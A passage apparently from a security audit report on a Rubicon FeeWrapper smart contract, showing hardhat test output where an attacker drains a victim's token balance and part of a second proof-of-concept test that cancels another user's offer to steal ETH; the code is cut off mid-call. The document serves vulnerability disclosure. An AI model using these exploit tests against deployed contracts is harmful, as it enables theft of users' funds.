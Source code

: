 ```solidity

        return uint256(bytes32(id));
    }
}
```

If you run the test, you'll see the following output:

    $ npx hardhat test test/hardhat-tests/exploit-fee-wrapper.ts

    The victim has a lot of tokens. Victim's balance =  `999000000000000000000`
    Before attack attacker has no tokens. Attacker's balance =  `0`
    After attack, attacker has all of the victims tokens. Attacker's balance =  `998001000000000000000`
    The victim is left with nothing. Victim's balance =  `0`

### Exploit 2 - 3rd party calls `RubiconRouter` through the `FeeWrapper`

To emphasize the problem, we'll also show that there's a problem in the example given with `Test3rdPartyProtocol.sol`. There's another bug making it impossible to cancel offers through the `FeeWrapper`, because the `FeeWrapper` is
not capable of accepting `eth`.

The following test is an exploit using the given `Test3rdPartyProtocol.sol` which cancels an offer made by another user. Currently, user cancel doesn't work because `FeeWrapper` doesn't have a payable fallback function. This exploit will work when the payable function is added, resulting in stolen funds.

Just to be clear, currently, an honest user making an offer can't cancel their own offer.

We added the following test to `fee-wrapper.ts` that shows this exploit:

```solidity
it("should call offerWithETH via 3d party AND STEAL IT ALL!", async function () {
  const { testCoin, pepeFinance, feeWrapper, router } = await loadFixture(
    deployRubiProtocolFixture
  );

  const feeToETHBalance0 = await ethers.provider.getBalance(FEE_TO);
  await pepeFinance.executeOfferWithETH(
    parseUnits("9"),
    parseUnits("310"),
    testCoin.address,
    0,
    { value: parseUnits("9") }
  );
  const feeToETHBalance1 = await ethers.provider.getBalance(FEE_TO);
  expect(feeToETHBalance1).to.be.gt(feeToETHBalance0);

  // The attacker calls the `FeeWrapper` directly
  let ABI = [
    "function cancelForETH(uint256 id)"
  ];
  let iface = new ethers.utils.Interface(ABI);
  let cancelFunc = iface.getFunction("cancelForETH")
  let cancelFuncSig = iface.getSighash(cancelFunc)
  let cancelFuncParams = iface._encodeParams(cancelFunc.inputs, [5])
  console.log(await feeWrapper.rubicall(
    {
      selector: cancelFuncSig,
      args: cancelFuncParams,
      target: router.address,
      feeParams: {
        feeToken: testCoin.address,
        totalAmount: 0,
        feeAmount: 0,
```